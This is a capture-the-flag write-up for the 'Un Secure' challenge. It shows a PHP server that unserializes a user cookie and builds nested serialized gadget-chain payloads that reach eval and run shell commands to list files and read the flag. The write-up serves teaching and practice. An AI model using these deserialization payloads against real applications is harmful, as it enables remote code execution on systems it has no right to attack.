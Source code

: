 # Un Secure

### Text: Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

&nbsp;

Score: 100

&nbsp;

Included Files: [dist.zip](dist.zip)

---
 ## Writeup

In this challenge you are given a php server which you have to exploit to read out the contents of the flag. You are provided with a Dockerfile.

Dockerfile
```
# copy all host file in cwd to container cwd
COPY . .

# move flag to root directory with random name
RUN mv flag.txt $(cat /dev/urandom | head -c 32 | hex).txt

```

When the server starts the flag is copied into the base directory under a random name. Since the server is only started once, this means that the name of the file will never change over the course of the challenge. The first step is to find the name of this file.
This can be done by exploiting some of the classes that come with challenge.

index.php
```
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);

    $t = unserialize($cookie);

}
```

In index.php a cookie provided by the user is directly input into the unserialize() function. This is a dangerous method which can be exploited if the user has uncontrolled access to the input. By inputting custom information, the user can create/modify any class or data. Luckly for us, the challenge provided three custom classes in which we can exploit.

class Vuln
```
class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }

            eval($this->cmd);

        }
    }
```

Class Adders
```
class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;

            var_dump($x);
        }
        function get_x()
        {
            return $this->x;
        }
    }
```

Class Echoers
```
class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
```

It can be seen in class Vuln that a command will be executed in the shell. All we have to do is create a Vuln object with a command to list out the current directory and find the flag file. The question is how can we create an instance of this class. We can use the unserialize function in index.php to unserialize a Vuln object. By setting the cookie to our serialized object, we can inject an object into the server.


Serialized Vuln object.
```
O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:26:"var_dump(shell_exec('ls'))";}
```

Using the serialized Vuln object above, we can create a Vuln object. Great. Except of course we have to call the __toString() method. Unfortunately we cannot call this directly via the unserialize() method. Now we have to utilize the other classes. Fortunately both of these classes contain magic methods which will automatically be called. For instance, the __construct() method on the Adder class will be called whenever the instance of the class is created, and the __destruct() method on the Echoers class will be called whenever an instance of this class is destroyed. By inputting a serialized class of Echoers, the __destruct() method will be called, executing the code inside. Since, object serializiation supports objects inside of objects, we can serialize an Echoers object with an Adder class as the $klass parameter. This means when the Echoer is destroyed, the Adder object will call the get_x() method. Now in the Adder class we must input a serialized Vuln() class as the $x parameter so that its __toString() method will be called. By correctly nesting the serialized classes we can finally get the Vuln() method to execute out command.

Full Nested Serialized Objects to list out directory contents
```
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:28:"var_dump(shell_exec('ls'));";}}}
```

By dumping the return of the shell command we will receive all of the files listed in the current directory including the name of the flag file. Now all we have to do is change the shell command to print out the contents of the flag.

Full Nested Serialized Objects to print out flag file
```
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:69:"var_dump(shell_exec('cat 182939124819238912571292389218129123.txt'));";}}}
```

By executing this command you will get the result - string(44) "TCP1P{unserialize in php go brrrrrrrr ouch}
"

## Flag: TCP1P{unserialize in php go brrrrrrrr ouch}